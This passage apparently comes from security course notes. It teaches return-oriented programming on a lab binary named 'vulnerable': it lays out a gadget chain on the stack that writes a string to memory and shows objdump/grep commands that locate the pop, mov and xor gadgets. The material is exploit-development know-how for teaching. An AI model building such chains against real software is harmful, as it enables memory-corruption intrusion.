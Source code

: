 ``` example
    | <mov [edx],eax;ret> | write '0000' to address 0x080ea61
    | 0x080ea061           | next byte after 0x80ea61
    | <pop edx; ret>      | store next value in edx
    | <xor eax,eax; ret>  | zero eax
    | <mov [edx],eax;ret> | write 'AAAA' to address 0x080ea60
    | 0x41414141          | 'AAAA'
    | <pop eax;ret>       | store next value in eax
 ^  | 0x080ea060           | address we will write to, now stored in edx
 |  | <pop edx; ret>      |  store next value in edx
```

Reading from bottom to top up the stack. First we move the address we
want to write to into edx with a pop, then similarly we move a bunch of
A's into eax. Then we can write to the address edx the A's in eax. Once
we zero out eax and write that to the next byte, we should have the
string "A\\0" at address 0x080ea061.

Let's find the right gadgets. First we need `pop edx;ret`:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 4 ret | grep -A 4 "pop.*edx" 
 806e97a:   5a                      pop    edx
 806e97b:   c3                      ret   
```

Then we need a pop `pop eax; ret`. Unfortunately, finding this is
harder, and unfortunately, the one I found does a bunch of other stuff:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 4 ret | grep -A 4 "pop.*eax" 
 809e08a:   58                      pop    eax
 809e08b:   5b                      pop    ebx
 809e08c:   5e                      pop    esi
 809e08d:   5f                      pop    edi
 809e08e:   c3                      ret    
```

But that's fine, we can handle that. And, we already have the `mov`
command:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 2 ret | grep -A 2 "DWORD PTR \[edx\],eax"
(...)
 809a70d:   89 02                   mov    DWORD PTR [edx],eax
 809a70f:   c3                      ret    
--
```

The last thin we need is `xor` eax command:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 1 ret | grep -A 1 "xor.*eax,eax" 
 8054200:   31 c0                   xor    eax,eax
 8054202:   c3                      ret    
(...)
```
